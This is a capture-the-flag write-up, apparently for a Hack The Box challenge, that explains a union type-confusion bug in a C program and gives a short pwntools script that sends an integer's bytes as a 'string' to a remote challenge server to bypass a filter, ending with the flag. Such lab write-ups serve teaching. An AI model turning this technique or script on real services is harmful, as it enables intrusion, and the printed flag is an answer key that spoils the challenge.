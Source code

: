 For this challenge, we need to reach the `get_flag` function however it will show us the flag only if the Datastore is equal to 13371337. The tricky part is that we can't assign the Datastore that integer because it's filtered, so we need to find a way around it.

![image](https://user-images.githubusercontent.com/80063008/198272933-b2d33f7c-ebf5-4cb4-b9b7-0cadfaf1e65d.png)

To be able to do so, we need to experiment a bit with the application to understand what it is actually doing because the prompts don't make much sense.

We have 3 actions defined: Set (T), Get (R) and Flag (C).

![image](https://user-images.githubusercontent.com/80063008/198272724-baea7189-d4ba-41f2-9676-bb2594010686.png) ![image](https://user-images.githubusercontent.com/80063008/198272849-0e427d1f-f948-4b4e-a324-90c7fac77124.png)

We can set either an integer (L) or a string (S).

![image](https://user-images.githubusercontent.com/80063008/198272749-d5a1ca6f-4adc-4366-983a-5bd6050fe206.png) ![image](https://user-images.githubusercontent.com/80063008/198272782-23be3efa-39a7-46a5-9c9c-de8adb1ed1be.png)

Now that we understand what to do with the prompts, we can have a closer look in the source code and we notice a vulnerability in static union:

https://stackoverflow.com/questions/7259830/why-and-when-to-use-static-structures-in-c-programming

![image](https://user-images.githubusercontent.com/80063008/198273071-48a297b1-225e-4ff1-86c0-79457f680ccd.png)

So, what would happen if we store our desired integer (13371337) as a "string"?! I used quotation here because if we store it as an actual string, nothing would happen, it would simply be seen as a string. However if we send the bytes of the integer in the string parameter, when we try to get the flag, it will be read as an integer, cool/weird right?!


```python
#!/usr/bin/python3

from pwn import *
context.log_level = 'warn'

#p = process('./entity')
p = remote('161.35.33.46', 32217)

p.recvuntil(b">>")
p.sendline('T')     #set
p.recvuntil(b">>")
p.sendline('S')     #as string
p.recvuntil(b">>")
p.sendline(p64(13371337)) #send our "string" in bytes form
p.recvuntil(b">>")
p.sendline('C') #read the flag
p.interactive()
```
![image](https://user-images.githubusercontent.com/80063008/198273283-39c6dbac-0694-4b8f-9afb-05a736cd4247.png)

HTB{f1ght_34ch_3nt1ty_45_4_un10n}